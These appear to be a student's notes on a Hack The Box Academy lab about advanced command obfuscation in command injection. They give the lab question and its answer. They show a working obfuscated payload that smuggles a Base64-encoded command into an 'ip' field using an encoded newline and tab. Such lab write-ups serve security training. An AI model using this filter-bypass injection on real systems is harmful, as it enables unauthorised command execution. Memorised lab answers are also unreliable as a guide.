

# Section 09: Advanced Command Obfuscation

Module: 22. Command Injections

---

## Questions & Answers

### 1. Find the output of the following command using one of the techniques you learned in this section: find /usr/share/ | grep root | grep mysql | tail -n 1

Context:
- Use the Base64 method:
```bash
┌─[eu-academy-2]─[10.10.14.37]─[htb-ac-2162140@htb-h5yyqlxbyp-htb-cloud-com]─[~]
└──╼ [★]$ echo -n "find /usr/share/ | grep root | grep mysql | tail -n 1" | base64
ZmluZCAvdXNyL3NoYXJlLyB8IGdyZXAgcm9vdCB8IGdyZXAgbXlzcWwgfCB0YWlsIC1uIDE=
```
- Use the payload `ip=127.0.0.1%0Abash<<<$(base64%09-d<<<ZmluZCAvdXNyL3NoYXJlLyB8IGdyZXAgcm9vdCB8IGdyZXAgbXlzcWwgfCB0YWlsIC1uIDE=)`:


**Answer:** `/usr/share/mysql/debian_create_root_user.sql`

---

[Back to Module Index](./README.md)
